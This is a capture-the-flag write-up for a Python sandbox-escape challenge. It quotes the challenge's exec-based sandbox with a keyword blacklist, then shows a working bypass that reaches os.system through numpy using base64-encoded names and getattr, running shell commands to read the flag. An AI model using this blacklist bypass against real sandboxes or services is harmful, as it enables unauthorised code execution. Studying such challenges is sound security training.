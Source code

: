 # Slithery

## Problem description

Setting up a new coding environment for my data science students. Some of them
are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
help test this before I use it for my class? Two sandboxes should be better
than one...

```nc pwn.chal.csaw.io 5011```

[sandbox.py](https://ctf.csaw.io/files/f273beef210bb77ed37ab74d82cb9799/sandbox.py?token=eyJ1c2VyX2lkIjo1MzYzLCJ0ZWFtX2lkIjo1MzI3LCJmaWxlX2lkIjo3NDMwfQ.X14Svg.zXKY8HMMgjM64swHwOaCZeUN5aE)

Category: pwn. Points: 100.

### sandbox.py
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

## Personal note
First time solving a pwn challenge. It was fun to do a python RCE challenge,
and I also learned some new things about the python language.

## Tools
* python3 interpreter

## Solving the challenge
This is a coding environment that accepts python commands. However, there is
a blacklist, meaning a lot of our input will not be accepted. We need to get
around the blacklist to execute the commands that will let us read the flag.

This would be the naive approach (without the blacklist):
```
>>> import os
>>> # List files in current directory, hopefully the flag is there
>>> os.system("ls")
>>> # Assuming the flag is located in flag.txt
>>> os.system("cat flag.txt") # Output file content
```

Connecting via netcat: `nc pwn.chal.csaw.io 5011`

```
EduPy 3.8.2
>>> import os
Exception: not allowed!!
>>> import
Exception: not allowed!!
>>> os
Exception: not allowed!!
>>> system
Exception: not allowed!!
```

Thus, we can not import modules the traditional way, and the words "os" and "system"
are blacklisted. So we need to find another way to get the flag. Examining sandbox.py
gives us some hints. We have access to the script variables from the coding environment,
but the easiest way to examine how the code works (without being bothered by
the blacklist) is to paste it into our own python3 interpreter:

```
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

# Examining variables
>>> print(AAnBLJqtRv)
base64
>>> print(bAfGdqzzpg)
b64decode
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f2dfcadf2f0>
>>> print(RMbPOQHCzt)
<module 'numpy' from PATH+'/__init__.py'>
```

Now we know we can b64decode strings using the HrjYMvtxwA variable. This could
be a way to circumvent the blacklist.

Maybe we can put code into b64encoded strings, b64decode the strings,
and then run the decoded strings with either eval or exec?

Checking the coding environment:
```
EduPy 3.8.2
>>> eval
Exception: not allowed!!
>>> exec
Exception: not allowed!!
```

Seems eval or exec will not work. However, we also have access to the numpy module.
We can examine the numpy module further in our own python3 interpreter:
```
>>> print(RMbPOQHCzt.__dict__)
```

This module has a lot of attributes. For instance, I noticed that the sys
module is exposed through the numpy module.
```
>>> print(RMbPOQHCzt.sys)
<module 'sys' (built-in)>
```

So let's see if the os module is also exposed:
```
>>> print(RMbPOQHCzt.os)
<module 'os' from PATH+'os.py'>
```

This looks really promising. However, we still have the problem that we can not access
the os property directly from the coding environment, since the word "os" is blacklisted. To get around this restriction, we can first b64encode the word, and then b64decode it.
The problem then is that we will only have access to the word "os" as a string.
It is not possible to get a property using a string when using dot notation.

```
>>> print(RMbPOQHCzt."os")
  File "<stdin>", line 1
    >>> print(RMbPOQHCzt."os")
     ^
SyntaxError: invalid syntax
```

Actually, sandbox.py uses an alternative approach to access base64.b64decode:
```
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
```

Let's find out more:
```
>>> help(getattr)

Help on built-in function getattr in module builtins:

getattr(...)
    getattr(object, name[, default]) -> value

    Get a named attribute from an object; getattr(x, 'y') is equivalent to x.y.
```

Using `getattr`, it should be possible to access the os property through the word "os" as a string.

Let's craft our solution in our own interpreter before trying it in the coding environment:
```
>>> base64.b64encode(b'os')
b'b3M='
>>> base64.b64encode(b'system')
b'c3lzdGVt'
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls") # Equivalent to os.system("ls")
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt") # Assuming flag is in flag.txt

```

Connecting to the coding environment:
```
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls")                      
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
>>>
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt")
flag{y4_sl1th3r3d_0ut}
```

Finally, we obtain the flag: \
`flag{y4_sl1th3r3d_0ut}`
